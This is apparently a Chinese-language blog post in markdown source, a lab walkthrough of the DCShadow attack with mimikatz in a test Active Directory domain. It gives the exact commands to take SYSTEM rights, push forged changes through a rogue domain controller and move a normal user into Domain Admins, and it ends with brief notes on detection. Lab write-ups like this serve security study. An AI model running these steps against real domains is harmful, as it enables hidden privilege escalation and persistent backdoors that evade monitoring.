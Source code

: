 ```yaml
---
layout: post
title:  "使用mimikatz执行DCShadow攻击"
date:   2020-12-09
tags: ID不重要
color: rgb(135,206,235)
cover: '../assets/dcshadow.png'
subtitle: 'DCShadow创建临时域控'
---
```


# DCShadow
DCShadow是mimikatz中lsadump模块的新功能。它能模拟域控制器的行为（该攻击使用仅由DC使用的RPC的协议）来注入自己想要的数据，从而绕过包括SIEM在内的大多数常见的安全控件。它与DCSync攻击（已经存在于mimikatz的lsadump模块中）具有某些相似之处。
# 测试环境
DC:Windows server 2012
域：tony.local
![1](/assets/DCShadow/1.png)
域主机:Windows server 2016
已加域
![2](/assets/DCShadow/2.png)
## 涉及到的账户
### 域管理组账户
账户名:test
![3](/assets/DCShadow/3.png)
### 域普通账户
账户名:dc
![4](/assets/DCShadow/4.png)
# 实验流程-1
## 创建窗口A
登录域主机Windows server 2016本地账
![5](/assets/DCShadow/5.png)
### 右键管理员打开权限mimikatz
![6](/assets/DCShadow/6.png)
### 启用system权限
依次执行命令，确保当前的进程已system权限打开
{% highlight ruby %}
mimikatz # !+
[+] 'mimidrv' service already registered
[*] 'mimidrv' service already started

mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 584/cmd.exe
 * to 3968/mimikatz.exe

mimikatz # token::whoami
 * Process Token : {0;000003e7} 1 D 1421627     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : no token
{% endhighlight %}
### 窗口Ａ
这个窗口暂时命名为:窗口A
![7](/assets/DCShadow/7.png)
## 开始执行DCShadow
### 查看描述
这里更改dc账户的描述，先查看dc的描述，由于我更改过，所以此时显示为
	“hi,hello”
![8](/assets/DCShadow/8.png)
### 执行更改
在刚才启动的窗口A中执行修改命令，来替换“hi,hello”
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:description /value:"an attcker"
{% endhighlight %}
执行完后如下所示，等待通过RPC协议推送至域控
![9](/assets/DCShadow/9.png)
## 创建窗口B
保持这个窗口，不要关闭！并在管理员权限下打开另一个cmd窗口，这个窗口的权限必须是域管理组成员的权限，也就是Domain admin组成员。
### 使用PSEXEC
这里使用psexec来启用system窗口
![10](/assets/DCShadow/10.png)
### 运行mimikatz
在这个窗口下运行mimikatz,查看当前的权限，为域管理权限test
![11](/assets/DCShadow/11.png)
### 执行推送命令
执行推送命令，下图可以看到，执行完推送命令后，刚开始执行修改的窗口显示RPC server stopped，此时就已经修改完成
{% highlight ruby %}
mimikatz # lsadump::dcshadow /push
{% endhighlight %}
![12](/assets/DCShadow/12.png)
## 查看修改结果
修改成功
![13](/assets/DCShadow/13.png)
# 实验流程-2
将dc账户添加至管理员组(Domain admin)
## 查看描述
首先查看dc的信息
{% highlight ruby %}
PSC:\Users\Administrator> ([adsisearcher]"(&(objectCategory=user)(name=dc))").Findall().Properties
{% endhighlight %}
此时dc的组ID为513
![14](/assets/DCShadow/14.png)
可以参考下面的对应组ID，513为域用户，那想要将dc加入至域管理组，就需要将组ID更改为512
{% highlight ruby %}
    512   Domain Admins
    513   Domain Users
    514   Domain Guests
    515   Domain Computers
    516   Domain Controllers
{% endhighlight %}
## 执行更改
在窗口A中执行
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:primarygroupid /value:512
{% endhighlight %}
![15](/assets/DCShadow/15.png)
## 执行推送命令
推送至域控制器
![16](/assets/DCShadow/16.png)
## 查看修改结果
查看dc的所属组
![17](/assets/DCShadow/17.png)
![18](/assets/DCShadow/18.png)
# 可能会出现的实验失败情况
在实验过程中，出现推送服务失败的情况，短暂性的卡在如下图的界面，随后出现Performing Unregistration(取消注册)，这里呢，域控之间的通信是通过RPC服务来进行的，执行推送的过程也是需要RPC服务，域控本身RPC服务端口是开放的，但是测试主机的RPC服务端口未开放。所以，有两种解决方法：
1、	把域主机的防火墙关闭
2、	在域主机防火墙中添加策略，开放RPC服务的端口（具体就不再写了，可以自行百度）
![19](/assets/DCShadow/19.png)
![20](/assets/DCShadow/20.png)
# 总结
DCShadow目前还是具有危害性的操作行为，该技术可以用于更改和删除复制以及其他关联的元数据，以阻止应急人员分析。攻击者还可以利用此技术执行SID历史记录注入和操纵AD对象（例如帐户，访问控制列表等）以建立持久性后门。
这不属于漏洞，因为是使用合法的已记录使用的协议：
{% highlight ruby %}
    MS-ADTS
    MS-DRSR
{% endhighlight %}
这是一种利用后攻击（也称为控制攻击），因为它需要域管理员（或企业管理员）特权。
安全分析人员可以通过流量以及相关的安全日志来查找痕迹。
